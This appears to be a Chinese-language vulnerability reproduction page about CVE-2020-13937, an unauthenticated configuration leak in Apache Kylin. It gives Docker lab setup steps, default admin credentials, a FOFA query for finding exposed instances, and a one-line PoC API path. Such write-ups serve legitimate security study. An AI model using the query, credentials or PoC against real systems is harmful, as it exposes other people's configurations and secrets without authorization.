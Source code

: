 ```yaml
---
title: Apache Kylin config 未授权配置泄露 CVE-2020-13937
---
```


# Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUta3lsaW4i">FOFA: app="APACHE-kylin"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="这里使用 docker 来搭建需要的环境" description="" showIcon>
</a-alert>

```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![img](../../../.vuepress/public/img/kylin-1.png)



## 

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220306140151412](../../../.vuepress/public/img/image-20220306140151412.png)
